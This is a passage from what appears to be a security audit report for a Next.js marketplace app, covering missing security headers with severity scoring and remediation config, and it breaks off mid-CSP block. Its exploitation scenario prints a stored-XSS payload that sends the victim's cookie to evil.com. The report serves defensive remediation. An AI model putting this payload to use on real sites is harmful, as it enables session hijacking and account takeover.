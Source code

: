 **Timeline:**
- **Immediate (0-4 hours):** Rotate R2 credentials
- **Day 1:** Move to environment variables, deploy
- **Day 2:** Verify no exposed credentials in git history
- **Day 3:** Audit R2 access logs for suspicious activity

---

### VULN-002: Missing Security Headers (CSP, HSTS, X-Frame-Options)

**Severity:** CRITICAL
**CVSS v3.1 Score:** 8.1 (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N)
**CWE:** CWE-693 (Protection Mechanism Failure)
**Location:** `/home/taleb/rimmarsa/marketplace/next.config.js`

**Description:**
The application does not implement critical security headers:
- **Missing Content-Security-Policy (CSP):** Allows XSS attacks
- **Missing Strict-Transport-Security (HSTS):** Allows man-in-the-middle downgrade attacks
- **Missing X-Frame-Options:** Allows clickjacking attacks
- **Missing X-Content-Type-Options:** Allows MIME-sniffing attacks
- **Missing Referrer-Policy:** Leaks sensitive URLs in Referer header

**Impact:**
- **XSS Attacks:** Attacker can inject malicious JavaScript to steal session tokens
- **Clickjacking:** Attacker can trick users into clicking hidden iframes
- **Protocol Downgrade:** Attacker can force HTTPS → HTTP, enabling MITM attacks
- **Session Hijacking:** Combined with XSS, attacker can steal HttpOnly cookies via XST

**Exploitation Scenario (XSS via Missing CSP):**
1. Attacker finds stored XSS in product description or vendor business name
2. Injects payload: `<img src=x onerror="fetch('https://evil.com/steal?token='+document.cookie)">`
3. Admin views vendor approval page
4. JavaScript executes, stealing admin session token
5. Attacker uses stolen token to approve fraudulent vendors

**Remediation (IMMEDIATE - Within 48 Hours):**

**Update `next.config.js`:**
```javascript
/** @type {import('next').NextConfig} */
const nextConfig = {
  eslint: {
    ignoreDuringBuilds: true,
  },

  // SECURITY HEADERS
  async headers() {
    return [
      {
        source: '/(.*)',
        headers: [
          // Content Security Policy (CSP)
          {
            key: 'Content-Security-Policy',
            value: [
              "default-src 'self'",
              "script-src 'self' 'unsafe-eval' 'unsafe-inline' https://vercel.live",
              "style-src 'self' 'unsafe-inline' https://fonts.googleapis.com",
              "img-src 'self' data: blob: https: https://pub-6cf3ef49a27d47f7bc38b12620f38013.r2.dev https://*.supabase.co",
              "font-src 'self' https://fonts.gstatic.com",
              "connect-src 'self' https://rfyqzuuuumgdoomyhqcu.supabase.co https://pub-6cf3ef49a27d47f7bc38b12620f38013.r2.dev",
              "frame-ancestors 'none'",
```